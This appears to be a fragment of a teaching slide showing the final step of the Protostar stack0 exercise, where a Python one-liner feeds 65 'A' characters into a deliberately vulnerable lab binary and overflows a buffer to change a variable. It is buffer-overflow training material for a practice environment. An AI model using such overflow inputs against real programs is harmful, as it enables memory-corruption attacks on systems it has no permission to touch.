

# Final test
user@protostar:/opt/protostar/bin$ python -c "print('A'*65)" | ./stack0
you have changed the 'modified' variable